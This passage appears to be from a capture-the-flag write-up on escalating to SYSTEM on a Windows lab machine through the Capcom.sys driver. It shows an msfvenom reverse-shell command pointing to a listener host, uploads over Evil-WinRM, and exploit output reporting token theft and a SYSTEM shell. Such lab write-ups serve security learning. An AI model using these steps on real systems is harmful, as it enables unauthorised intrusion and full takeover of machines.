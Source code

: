 I’ll change the `CommandLine` string to:

```

TCHAR CommandLine[] = TEXT("C:\\ProgramData\\0xdf.exe");

```

Now I can just drop a payload at `C:\programdata\0xdf.exe` and it will be run as SYSTEM.

#### Generate Payload

I could compile my own payload since I’ve already got Visual Studio open, but I’ll opt for a simple `msfvenom` payload. I’ll use `windows/x64/shell_reverse_tcp` to get a reverse shell I can handle with `nc`:

```

root@kali# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe

```

#### Execute

Now I’ll upload the two executables:

```
*Evil-WinRM* PS C:\programdata> upload rev.exe 0xdf.exe
Info: Uploading rev.exe to C:\programdata\0xdf.exe

Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> upload ExploitCapcom.exe
Info: Uploading ExploitCapcom.exe to C:\programdata\ExploitCapcom.exe

Data: 363860 bytes of 363860 bytes copied

Info: Upload successful!

```

To run it, I just need to run the `ExploitCapcom.exe` binary with my `nc` listener waiting:

```
*Evil-WinRM* PS C:\programdata> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 000001D1FD540008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program

```
